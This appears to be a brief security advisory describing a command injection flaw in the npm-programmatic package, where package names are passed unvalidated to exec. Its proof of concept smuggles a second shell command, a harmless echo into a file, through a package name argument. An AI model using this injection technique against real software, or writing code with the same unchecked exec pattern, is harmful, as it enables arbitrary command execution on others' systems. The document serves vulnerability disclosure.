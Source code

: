 # Overview

`npm-programmatic` is a library that allows you to access npm commands programmatically from javascript, this package is vulnerable to Command Injection.

The packages and option properties are concatenated together without any validation and are used by the `exec` function directly.

# Proof of Concept

```
var root = require("npm-programmatic");
var attack_code = "& echo vulnerable > create.txt &";
root.install([attack_code], {"cwd": "./"});
```
